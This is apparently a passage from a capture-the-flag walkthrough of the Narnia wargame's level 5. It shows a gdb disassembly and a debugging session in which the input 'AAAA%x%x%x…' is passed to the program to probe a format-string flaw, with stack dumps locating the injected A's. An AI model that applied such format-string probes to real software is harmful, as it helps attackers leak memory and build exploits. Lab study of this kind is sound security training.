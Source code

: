 ```
   0x080484d6 <+146>:   lea    -0x1(%eax),%edx
   0x080484d9 <+149>:   mov    $0x8048641,%eax
   0x080484de <+154>:   mov    %edx,0x8(%esp)
   0x080484e2 <+158>:   lea    0x2c(%esp),%edx
   0x080484e6 <+162>:   mov    %edx,0x4(%esp)
   0x080484ea <+166>:   mov    %eax,(%esp)
   0x080484ed <+169>:   call   0x8048330 <printf@plt>
   0x080484f2 <+174>:   mov    0x6c(%esp),%edx
   0x080484f6 <+178>:   mov    $0x8048655,%eax
   0x080484fb <+183>:   lea    0x6c(%esp),%ecx
   0x080484ff <+187>:   mov    %ecx,0x8(%esp)
   0x08048503 <+191>:   mov    %edx,0x4(%esp)
   0x08048507 <+195>:   mov    %eax,(%esp)
   0x0804850a <+198>:   call   0x8048330 <printf@plt>
   0x0804850f <+203>:   mov    $0x0,%eax
   0x08048514 <+208>:   mov    -0x4(%ebp),%edi
   0x08048517 <+211>:   leave
   0x08048518 <+212>:   ret
End of assembler dump.
```

```
(gdb) br *0x08048471
Breakpoint 1 at 0x8048471
(gdb) r AAAA%x%x%x%x%x%x%x%x%x
Starting program: /games/narnia/narnia5 AAAA%x%x%x%x%x%x%x%x%x
 
Breakpoint 1, 0x08048471 in main ()
(gdb) x/50wx $esp
0xffffd6a0:     0xffffd6cc      0x00000040      0xffffd8f0      0xf7e5efc3
0xffffd6b0:     0x08048261      0x00000000      0x00ca0000      0x00000001
0xffffd6c0:     0xffffd8da      0x0000002f      0xffffd71c      0xf7fceff4
0xffffd6d0:     0x08048520      0x08049840      0x00000002      0x08048319
0xffffd6e0:     0xf7fcf3e4      0x00008000      0x08049840      0x08048541
0xffffd6f0:     0xffffffff      0xf7e5f116      0xf7fceff4      0xf7e5f1a5
0xffffd700:     0xf7feb660      0x00000000      0x08048529      0x00000001
0xffffd710:     0x08048520      0x00000000      0x00000000      0xf7e454b3
0xffffd720:     0x00000002      0xffffd7b4      0xffffd7c0      0xf7fd3000
0xffffd730:     0x00000000      0xffffd71c      0xffffd7c0      0x00000000
0xffffd740:     0x0804822c      0xf7fceff4      0x00000000      0x00000000
0xffffd750:     0x00000000      0x4e48b022      0x794e1432      0x00000000
0xffffd760:     0x00000000      0x00000000
(gdb) ni
0x08048476 in main ()
(gdb) x/50wx $esp
0xffffd6a0:     0xffffd6cc      0x00000040      0xffffd8f0      0xf7e5efc3
0xffffd6b0:     0x08048261      0x00000000      0x00ca0000      0x00000001
0xffffd6c0:     0xffffd8da      0x0000002f      0xffffd71c      0x41414141 <- The 4 A's
0xffffd6d0:     0x35653766      0x33636665      0x38343038      0x30313632
0xffffd6e0:     0x30306163      0x66313030      0x64666666      0x32616438
0xffffd6f0:     0x66666666      0x31376466      0x34313463      0x34313431
0xffffd700:     0xf7fe0031      0x00000000      0x08048529      0x00000001
0xffffd710:     0x08048520      0x00000000      0x00000000      0xf7e454b3
0xffffd720:     0x00000002      0xffffd7b4      0xffffd7c0      0xf7fd3000
0xffffd730:     0x00000000      0xffffd71c      0xffffd7c0      0x00000000
0xffffd740:     0x0804822c      0xf7fceff4      0x00000000      0x00000000
0xffffd750:     0x00000000      0x4e48b022      0x794e1432      0x00000000
0xffffd760:     0x00000000      0x00000000
```
